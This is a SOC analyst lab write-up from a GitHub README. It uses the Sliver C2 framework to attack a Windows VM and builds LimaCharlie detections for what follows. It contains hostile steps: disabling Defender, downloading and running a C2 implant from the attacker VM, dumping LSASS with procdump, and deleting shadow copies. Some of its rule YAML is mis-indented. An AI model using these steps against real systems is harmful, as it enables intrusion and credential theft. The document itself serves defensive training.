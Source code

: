 # SOC Analyst EDR Lab

## Objective

The Detection Lab project aimed to establish a controlled environment for simulating and detecting cyber attacks. The primary focus was to ingest and analyze the use of an EDR, generating test telemetry to mimic real-world attack scenarios. This hands-on experience was designed to deepen understanding of network security, attack patterns, and defensive strategies. 

### Skills Learned
<!--- [Bullet Points - Remove this afterwards] --->

- Detection of remote connections and creating alerts for detection.
- Proficiency in analyzing and interpreting system irregularities.
- Ability to generate and recognize attack signatures and patterns.
- Enhanced knowledge of network protocols and security vulnerabilities.
- Development of critical thinking and problem-solving skills in cybersecurity.
- Blocking an attack.
- Tuning detections to block out false positives.

### Tools Used
<!--- [Bullet Points - Remove this afterwards] --->

- EDR system (LimaCharlie) for detection and analysis of the endpoint.
- System analysis tools like sysmon to track irregularities on endpoints.
- Telemetry generation tools to create realistic network traffic and attack scenarios.

## Setup

This is a lab from a blog post. You can follow along with it [here](https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro). The steps in this are just a summarization of the parts.

###Part 1 - Setup a small vitrualization environment (2 small VMs)

1. Download and install VMware Workstation Pro.
2. Download and deploy a free Windows VM directly from Microsoft.
3. Download and install Ubuntu into a new VM and make sure to set a static IP on the same subnet as the Microsoft OS.
4. Set a memorable username/password (this is just a lab).
5. Install OpenSSH server on Ubuntu.
6. Continue on the Ubuntu Server install till complete. 
7. Restart Ubuntu.
8. Ping google.
``` ping -c 2 google.com ```
9. Make sure you get a similar output to below.
![image](https://github.com/user-attachments/assets/5a7b2374-4f5d-401a-bc60-a310cb825c03)
10. Next is turning on the Windows VM and disabling Defender on it.
11. Removing Tamper Protection is our first step and there are other options on the same area as them that should also be turned off. The following steps ensure that it does not turn itself back on. Setting the registry options to 4 in this part disables that tool and it will disable the main parts of Defender to stop it from starting up upon any further boots.
12. From an administrative command prompt, to prevent the VM from going into sleep/standby mode during our shenanigans.
```
powercfg /change standby-timeout-ac 0
powercfg /change standby-timeout-dc 0
powercfg /change monitor-timeout-ac 0
powercfg /change monitor-timeout-dc 0
powercfg /change hibernate-timeout-ac 0
powercfg /change hibernate-timeout-dc 0
```
These commands just change power configuration to never get triggered for a system event to turn off the computer.
13. Install Sysmon for getting granular telemetry on the Windows endpoint.
14. Install LimaCharlie and make a sensor for your endpoint on the site then install that sensor to point out to the EDR so events will be recorded.
15. After we are done with the Windows machine then move to Ubuntu to setup the attack machine. SSH from a command prompt on your computer so you can copy and paste the commands easier or just type them into your VM.
16. Now to install Sliver Linux server on the attacking machine.
```
# Download Sliver Linux server binary
wget https://github.com/BishopFox/sliver/releases/download/v1.5.42/sliver-server_linux -O /usr/local/bin/sliver-server
# Make it executable
chmod +x /usr/local/bin/sliver-server
# install mingw-w64 for additional capabilities
apt install -y mingw-w64
```
17. Then make a directory to store information for later.
```
# Create our future working directory
mkdir -p /opt/sliver
```

### Part 2 - Generate our C2 payload
1. Get into root and change directory to opt/sliver/ to run sliver server for this part the lauch Sliver server
2. Generating a C2 session use the following command
   ``` generate --http [Linux_VM_IP] --save /opt/sliver ```
3. Once you've gotten it created it should show "Implate saved to [file path]/[filename].exe"
4. You can check to be sure by running the command
   ``` implants ```
![image](https://github.com/user-attachments/assets/256e52ff-5296-4e85-9f78-54cc0f5f753e)
5. In order to download the C2 you'll need to start a python temp web server with
   ``` python3 -m http.server 80 ```
6. Now you can pull the file with a admin powershell using command
   ``` IWR -Uri http://[Linux_VM_IP]/[payload_name].exe -Outfile C:\Users\User\Downloads\[payload_name].exe ```
7. Now that will pull it to your victim and make the file usable
8. In order to start up your connection will need to start up sliver server and then run http listener. Then on the victim machine you'll need to run the file with a admin cmd.
   ``` C:\Users\User\Downloads\[c2_implant].exe ```
9. Once that is running you can go back to the Ubuntu ssh. Run the command
    ``` http ```
   ![image](https://github.com/user-attachments/assets/c911a3a4-dfdc-4eb0-9c42-37a6eb17fc1f)
10. Then you can confirm your session to be able to get a remote connection by listing using
    ```sessions``` then use the session ID and then the command ```use [session ID number]```
11. Now you can get infromation about your session with ```info``` you can use this to run commands in the background as long as the connection is working as it should. You can see what things you can do with the ```getprivs``` command
![image](https://github.com/user-attachments/assets/b840c60f-5ad0-424e-995d-b62c6b7ba95a)
![image](https://github.com/user-attachments/assets/68c21d40-51d3-4261-9e9d-6143c4f578ac)
12. Now we can see connections on the pc if we use netstat and the green one will be your sliver connection
  ![image](https://github.com/user-attachments/assets/ea128754-5738-4e5d-bd10-762cfda304db)
13. Running ps -T will show you the running processes and the red hightlighted ones are a defensive measure while the green hightlight one is the sliver process

![image](https://github.com/user-attachments/assets/eb0c4d2e-db82-4f75-96ae-1ab1dc816d0b)
![image](https://github.com/user-attachments/assets/0cc86ee2-8836-49a2-b202-84fe532107c6)

15. Since we're using and EDR we want to be familiar with the processes that run, but this is my first lab and noticing after the installation of the EDR (LimaCharlie) we can identitfy network connections that are active. Through LimaCharlie go to your sensors and click the processes under the lab sensor that is installed. You can search by process name or just scroll through and see active connections with a wave next to the process.
![image](https://github.com/user-attachments/assets/67ec523c-464b-45cb-b2f3-766c26d4c65f)

16. If you click the veritcal dots and go to view network connection you'll find where the connection leads to.
![image](https://github.com/user-attachments/assets/65b873b5-c32d-45bf-8cbe-a87ecce4cc13)

17. Explore other parts of the LimaCharlie interface to find network connections and the file system.
18. You can find the hash of the file and even search in virus total to see if its known.
![image](https://github.com/user-attachments/assets/ff058b34-3483-4756-95c3-4590af8ace7f)
This file is unique since we created it and because of that its never been seen before but since we're analysts we need to trust ourselves that if something seems suspicious it should be investigated further if something doesn't seem right.
19. Inspecting timeline can show us signed processes and unsigned which might be of importance to us seeing as we're suspecting some malicious activity, but could be useful in real world scenarios to identify malicious activity.

### Part 3 - Let's Get Adversarial
1. Now that we've explored new avenues that we've created and how to detect the malicious activity we want to see about doing something all attackers want and thats get CREDENTIALS. Run the command ``` procdump -n lsass.exe -s lsass.dmp ```
2. In another lab I'll look into processing this lsass dump but for now its just an excercise to see how to get it from sliver server.

3. Now we are going back to LimaCharlie to find a SENSITIVE_PROCESS_ACCESS event that will alert us of something that is likely to be out of the ordinary.
![image](https://github.com/user-attachments/assets/b697416b-2eb9-489e-a746-c7ca22388f7c)

4. Now that we found this type of activity and understand it to be malicious we need to detect anytime this happens and setup a D&R rule. Use the following button to make a D&R rule.
![image](https://github.com/user-attachments/assets/d425bb70-22d9-402a-b8a6-1bdda41e8e1d)
5. When making the rule for this lab we can use.
```
event: SENSITIVE_PROCESS_ACCESS
op: ends with
path: event/*/TARGET/FILE_PATH
value: lsass.exe
```
The lab is not for a real world scenario because the lab admits that this rule would be noisy and not very useful without some tuning.
6. Then we tell it what to name it with in the following in the response box.
```
- action: report
  name: LSASS access
```
7. Once you've created this run the rule against the event at the bottom of the page to determine if it will work. Then save it with a name that will help with showing detections easier in the detection section.
8. Run procdump again and check detections for a new event.

### Part 4 - Blocking Attacks
1. Now we're going to do some things that will cause suspicious activity again and something an attacker would do to remove good backups in order to keep their software on the system. We will remove volume shadow copies.
2. In sliver server; get a session going again if you've stopped it.
3. Run the command ``` shell ``` from your sliver server in the local command prompt
   ![image](https://github.com/user-attachments/assets/ccdb9eae-e6b8-4efa-a662-586f10ee12c9)
4. There probably won't be any shadow copies but just running this command can show malicious activity and give us a baseline to work with in order to keep false positives to a minimum. If we start blocking just anything it could cause some chaos in a real environment so getting this right is crucial.
5. Go to detections in LimaCharlie and you'll notice the vssadmin for shadow deletion was detected. You can click on the small button on the top right that looks like an arrow pointing up and to the right to make a D&R rule.
6. Create the D&R with the following
   Detect:
```
event: NEW_PROCESS
op: and
rules:
-  op: is
path: event/FILE_PATH
value: C:\Windows\system32\vssadmin.exe
- op: is
path: event/COMMAND_LINE
value: '"C:\Windows\system32\vssadmin.exe" delete shadows /all'
- op: is
path: routing/hostname
value: windev2407eval.localdomain
```
7. Then create the response with this
```
name: vss_deletion_kill_it
- action: task
command:
- deny_tree
- <<routing/parent>>
   ```


*Ref 1: Network Diagram*
